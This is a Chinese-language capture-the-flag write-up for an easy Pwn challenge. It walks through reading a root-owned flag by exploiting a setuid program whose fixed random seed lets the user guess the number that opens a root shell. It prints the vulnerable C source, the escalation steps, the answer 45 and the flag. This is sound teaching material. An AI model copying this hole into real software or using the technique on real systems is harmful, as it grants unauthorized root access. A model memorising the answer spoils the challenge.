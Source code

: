 # 没有权限的flag！

- 作者：pn1fg
- 参考：-
- 难度：Easy
- 分类：Pwn
- 暴露端口：70

## 题目描述

flag就在这，你能拿到它嘛？

## 题目解析

@pn1fg 的思路，我（@13m0n4de）只负责实现。

本题考察 Pwn 的工具使用，以及 linux 系统基础命令和生成随机数

这题还是一样的套路，nc 连接容器后是一个 shell 终端

```shell
$ nc ip port
```

首先 ls 查看当前目录下有个flag 文件

```shell
/ $ ls
bin
dev
flag
lib
lib32
lib64
myapp
```

cat flag 提示我们权限不够

```shell
/ $ cat flag
cat: can't open 'flag': Permission denied
```

这时我们可以 ls -la 查看当前 flag 权限

```shell
/ $ ls -la
total 56
drwxr-x---    1 1000     1000          4096 Oct 22 11:18 .
drwxr-x---    1 1000     1000          4096 Oct 22 11:18 ..
drwxr-xr-x    1 0        0             4096 Oct 14 16:30 .secret
drwxr-xr-x    2 0        0             4096 Oct 14 16:30 bin
drwxr-xr-x    2 0        0             4096 Oct 14 16:30 dev
-r--------    1 0        0               43 Oct 22 11:38 flag
drwxr-xr-x    1 0        0             4096 Oct 14 16:30 lib
drwxr-xr-x    2 0        0             4096 Oct 14 16:30 lib32
drwxr-xr-x    1 0        0             4096 Oct 14 16:30 lib64
-rwsr-sr-x    1 0        0            16408 Oct 14 16:29 myapp
```

id 查看我们当前用户权限

```shell
/ $ id
uid=1000 gid=1000 groups=1000
```

发现我们当前用户并没有读取 flag 的权限，我们需要更高权限的用户，首先想到的方法就是提权，仔细观察当前目录下还有个可执行程序 myapp ，它拥有 sudo 权限，我们可以通过执行它获取更高的权限

执行 myapp

```shell
/ $ ./myapp
Please Input Your Number:
1
HACKER!!!
```

提示我们输入一个数，我们随便输个 1 ，返回了一个字符串

此时我们再次 id 查看当前用户权限

```shell
/ $ id
uid=1000 gid=1000 groups=1000
```

发现用户权限并没有改变，说明提权失败

回想刚刚 ls -la 时，当前目录下有个 `.secret`的隐藏文件夹，联想到上一题的 flag 就藏在里面，我们也进入 `.ssecret`下查看一下

```shell
/ $ cd .secret
/.secret $ ls
myapp.c
```

发现这个文件夹中放着刚刚 myapp 的 C 语言源码

果断查看源码

```c
/.secret $ cat myapp.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>


void init() {
    setvbuf(stdin, 0LL, 2, 0LL);
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stderr, 0LL, 2, 0LL);
}

int main() {
    int v1,v2;

    init();
    srand(10);
    v1 = rand() % 50;
    puts("Please Input Your Number:");
    scanf("%d", &v2);

    if (v2 == v1) {
        setuid(0);
        system("/bin/sh");
    } else {
        puts("HACKER!!!");
    }

    return 0;
}
```

仔细阅读源码，发现这个程序在生成随机数，我们只需猜出它生成的随机数就可以成功提权，有 C 语言基础的同学们可以一眼看出本题的随机数是固定的，因为它的随机数种子是固定的并且告诉了我们，所以我们只需要在本地写一个 C 程序，运行出这个随机数为 45。

再次执行 myapp 

```shell
/ $ ./myapp
Please Input Your Number:
45

id
uid=0 gid=1000 egid=0 groups=1000
```

再次执行输入 45 后发现没有回显，此时 id 查看当前用户权限为最高权限

获取 flag

```shell
cat f*
flag{8b612fd0-d084-49eb-927f-47b72bd29b95}
```


